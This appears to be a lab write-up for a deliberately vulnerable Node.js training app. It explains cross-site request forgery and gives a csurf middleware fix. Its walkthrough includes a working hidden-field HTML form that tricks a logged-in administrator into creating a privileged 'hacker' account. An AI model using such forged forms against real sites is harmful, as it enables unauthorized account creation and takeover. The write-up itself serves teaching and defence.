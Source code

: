 ## Cross Site Request Forgery (CSRF)

#### Description

A Cross-site Request Forgery (CSRF) attack is one in which the user's browser is hijacking in order to submit a request to another website they are authenticated on. They occur as a result of unprotected requests that can change the state without requiring direct user input. For example, if a form/request on a bank website to add money to their bank account is not protected by CSRF, an attacker could create an unrelated page, and submit a request to that endpoint when the user loads the attacker's page. Since the user's browser has a valid session cookie, the request would occur without the user even being aware anything had happened!

CSRF attacks are sometimes thought of as being only applicable to GET requests, but POST requests work just as well. A user simply needs to be manipulated into visiting a malicious website or clicking a malicious link to fall victim to the attack.

#### Problem
POST /api/admin/createUser

In node.nV application, there is no CSRF protection. Attackers could leverage a CSRF attack to exploit administrative functionality.

### Walkthrough
1. Create an HTML page with the code below
2. Host the page created in step one on a private server.
3. Supply the URL to the vulnerable page to an administrator with and active session open.
4. If the admin user presses the button, than the code will execute, and a user with the username:password hacker:hacker will be created.

### Code for step 1 above:

```
  <html>
  <body>
    <form action="http://localhost:8081/api/admin/createUser" method="POST">
      <input type="hidden" name="username" value="hacker" />
      <input type="hidden" name="firstname" value="super" />
      <input type="hidden" name="lastname" value="hacker" />
      <input type="hidden" name="email" value="hacker&#64;hacker&#46;com" />
      <input type="hidden" name="password" value="hacker" />
      <input type="hidden" name="role" value="3" />
      <input type="hidden" name="ispremium" value="true" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```


< Note about JSON POST requests and CSRF >


#### Solution

There are several ways to prevent CSRF attacks on your application. The most straightforward method is to use a "synchronizer token" with any request that change state in your application. This involves creating a unique token and attaching it to every HTML form or AJAX call sent to the user. If the user wishes to then make a state-modifying request, they will have to attach the token they were just sent. The server verifies that the token was sent to the user, and only then accepts the request.

There are many node.js packages that have built in middleware features that readily protect against CSRF attacks. csurf is one such package which can be found on npm (https://github.com/expressjs/csurf). The following code can be added to the server.js file in order to activate the csurf module:

```
var csrf = require('csurf')

app.use(csrf({ cookie: true }))

// error handler
app.use(function (err, req, res, next) {
  if (err.code !== 'EBADCSRFTOKEN') return next(err)

  // handle CSRF token errors here
  res.status(403)
  res.send('form tampered with')
})
```
